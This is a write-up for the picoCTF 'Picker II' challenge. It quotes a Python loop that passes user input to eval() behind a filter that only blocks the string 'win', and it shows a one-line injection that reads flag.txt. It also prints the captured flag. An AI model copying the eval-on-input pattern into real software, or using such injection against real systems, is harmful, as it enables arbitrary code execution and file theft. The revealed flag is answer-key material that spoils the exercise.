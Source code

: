 
# Picker II

*Medium*

>### Description
>Can you figure out how this program works to get the flag?
Connect to the program with netcat:
>```sh
> nc saturn.picoctf.net 65333
>```
>The program's source code can be downloaded [here](https://artifacts.picoctf.net/c/522/picker-II.py).

### Solution

The source contains a lot of useless code and comments. But the import thing is the main loop, same as previous challenge. But this time it filters user input very basic.

```python
def filter(user_input):
  if 'win' in user_input:
    return False
  return True

while(True):
  try:
    user_input = input('==> ')
    if( filter(user_input) ):
      eval(user_input + '()')
    else:
      print('Illegal input')
  except Exception as e:
    print(e)
    break
```

Our input is invalid if we use 'win', so we cannot just straightup call win(). But since our input just get parsed as python code. We can simply read the flag file and print it as our input.

```python
print(open('flag.txt', 'r').read())#
```

<details>
<summary>Yes! We got the flag:</summary> 
picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_0b5f1131}
</details>